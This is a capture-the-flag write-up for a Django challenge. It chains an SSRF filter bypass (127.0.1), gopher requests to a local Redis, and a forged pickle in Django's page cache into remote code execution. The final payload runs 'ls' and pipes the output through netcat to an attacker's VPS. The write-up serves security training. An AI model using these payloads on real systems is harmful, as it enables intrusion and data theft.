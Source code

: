 # Shinobis World (1000pts) (1 Solves) #

![TASK](https://imgur.com/7X3dgtW.png)

Hello guys again , in this task we are give the Settings.py of a django Web application , we can notice that the website is using caching with redis that is listening on port 6379 locally !

![TASK](https://imgur.com/60QSkz4.png)

Our first impression, we see an url fetcher that is curling websites which will be probably some SSRF , we try the usual payloads and we find that file ,localhost and 127.0.0.1 are filtered 
so we can use 127.0.1 and maybe http or gopher protocol , firstly let's think , as we said we had a redis instance that is running on localhost , so may be using the ssrf we can interact with it

in fact you can use gopher protocol to interact with redis :

> gopher://127.0.1:6379/_RedisCommandHERE

for example to list all keys:

>> gopher://127.0.1:6379/_keys%20*

if we refresh the shinobis web page and then list all keys we can see some new keys that are set :

> :1:views.decorators.cache.cache_page..GET.a906279c6f1b8c76747a8ba71e866d8c.d41d8cd98f00b204e9800998ecf8427e.en-us.UTC
>> :1:views.decorators.cache.cache_header..a906279c6f1b8c76747a8ba71e866d8c.en-us.UTC 

![TASK](https://imgur.com/bOKKP3k.png)

If you read the Django Manual you will find that the caching system in django is a little bit different , first of all django will serialize the header and the rest of the page using pickle then it will cache them in the memory

So the idea is to forge our payload using pickle and the set the default key of django (:1:views.decorators.cache.cache_page..GET.a906279c6f1b8c76747a8ba71e866d8c.d41d8cd98f00b204e9800998ecf8427e.en-us.UTC) with our payload , here is what will happen chronologically :
- Django will try to load the page so firstly he will check if the :1:views.decorators.cache.cache_page..GET.a906279c6f1b8c76747a8ba71e866d8c.d41d8cd98f00b204e9800998ecf8427e.en-us.UTC key is set 
- if the key is set he will unpickle the data stored there and load the page using this content
- Our payload will be executed then Bingo we will have the flag :D

Final Payload : 
> gopher://127.0.1:6379/aset%20:1:views.decorators.cache.cache_page..GET.a906279c6f1b8c76747a8ba71e866d8c.d41d8cd98f00b204e9800998ecf8427e.en-us.UTC%20"cposix\nsystem\np0\n(S'ls|nc YourVPSIP 1234'\np1\ntp2\nRp3\n."
This Payload will execute ls command and send it to our vps (don't forget to refresh the Shinobis page because it's the page that is being cached)

***Note:*** You can find the source code of this task in source code repo

**Conclusion**

I hope that you liked the challenge , i tried to combine the SSRF with this default feature of django that can be used maliciously , it can be applied with any caching system (Memcached or Redis ..)
If you have any questions dont forget to contact me and if you liked this writeup please star this repo :D

